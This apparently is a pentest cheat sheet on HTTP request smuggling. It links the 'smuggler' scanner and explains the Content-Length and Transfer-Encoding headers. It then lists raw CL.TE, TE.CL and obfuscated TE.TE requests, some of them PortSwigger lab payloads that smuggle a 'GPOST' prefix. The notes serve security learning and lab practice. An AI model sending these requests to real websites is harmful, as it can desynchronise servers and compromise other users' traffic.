

# HTTP Request Smuggling

```text
** Tools **
https://github.com/defparam/smuggler
python3 smuggler.py -u <URL>
https://github.com/defparam/tiscripts

HTTP request smuggling is a technique for interfering with the way a web site processes sequences of HTTP requests that are received from one or more users. Request smuggling vulnerabilities are often critical in nature, allowing an attacker to bypass security controls, gain unauthorized access to sensitive data, and directly compromise other application users.
Request smuggling attacks involve placing both the Content-Length header and the Transfer-Encoding header into a single HTTP request and manipulating these so that the front-end and back-end servers process the request differently. The exact way in which this is done depends on the behavior of the two servers:
Most HTTP request smuggling vulnerabilities arise because the HTTP specification provides two different ways to specify where a request ends: the Content-Length header and the Transfer-Encoding header.

- The Content-Length header is straightforward: it specifies the length of the message body in bytes. For example:

    POST /search HTTP/1.1
    Host: normal-website.com
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 11

    q=smuggling

- The Transfer-Encoding header can be used to specify that the message body uses chunked encoding. This means that the message body contains one or more chunks of data. Each chunk consists of the chunk size in bytes (expressed in hexadecimal), followed by a newline, followed by the chunk contents. The message is terminated with a chunk of size zero. For example:

    POST /search HTTP/1.1
    Host: normal-website.com
    Content-Type: application/x-www-form-urlencoded
    Transfer-Encoding: chunked

    b
    q=smuggling
    0


• CL.TE: the front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding header.
   ◇ Find - time delay:
    POST / HTTP/1.1
    Host: vulnerable-website.com
    Transfer-Encoding: chunked
    Content-Length: 4

    1
    A
    X
• TE.CL: the front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header.
   ◇ Find time delay:
    POST / HTTP/1.1
    Host: vulnerable-website.com
    Transfer-Encoding: chunked
    Content-Length: 6

    0

    X
• TE.TE: the front-end and back-end servers both support the Transfer-Encoding header, but one of the servers can be induced not to process it by obfuscating the header in some way.

- CL.TE
    Using Burp Repeater, issue the following request twice:
    POST / HTTP/1.1
    Host: your-lab-id.web-security-academy.net
    Connection: keep-alive
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 6
    Transfer-Encoding: chunked

    0

    G
    The second response should say: Unrecognized method GPOST.

 - TE.CL
    In Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.
    Using Burp Repeater, issue the following request twice:
    POST / HTTP/1.1
    Host: your-lab-id.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-length: 4
    Transfer-Encoding: chunked

    5c
    GPOST / HTTP/1.1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 15

    x=1
    0

 - TE.TE: obfuscating TE Header
     In Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.
    Using Burp Repeater, issue the following request twice:
    POST / HTTP/1.1
    Host: your-lab-id.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-length: 4
    Transfer-Encoding: chunked
    Transfer-encoding: cow

    5c
    GPOST / HTTP/1.1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 15

    x=1
    0
```




